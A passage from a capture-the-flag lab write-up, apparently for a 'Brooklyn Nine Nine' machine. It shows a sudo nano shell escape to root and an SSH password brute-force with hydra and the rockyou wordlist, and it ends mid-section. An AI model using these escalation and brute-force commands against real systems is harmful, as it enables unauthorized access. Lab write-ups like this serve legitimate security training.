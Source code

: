 <br>

## Root

Looking at [**GTFOBins for the nano command**](https://gtfobins.github.io/gtfobins/nano/#sudo) shows us the following:

![](images/brooklyn2.png)

And doing that drops us to a root shell:

```
Command to execute: reset; sh 1>&0 2>&0
# whoami
root
```

The root.txt flag is waiting for us in the /root directory:

`wc -c /root/root.txt`

```
135 /root/root.txt
```

<br>

## Bonus

We saw earlier in a note on the FTP server that jake had a weak password so I decide to brute force it:

`hydra -l jake -P rockyou.txt $ip ssh`

```
[22][ssh] host: 10.10.77.122   login: jake   password: <REDACTED>
```

And I'm able to ssh over as jake:

```
jake@10.10.77.122's password: 
Last login: Tue May 26 08:56:58 2020
jake@brookly_nine_nine:~$
```

Jake has `sudo -l` access:
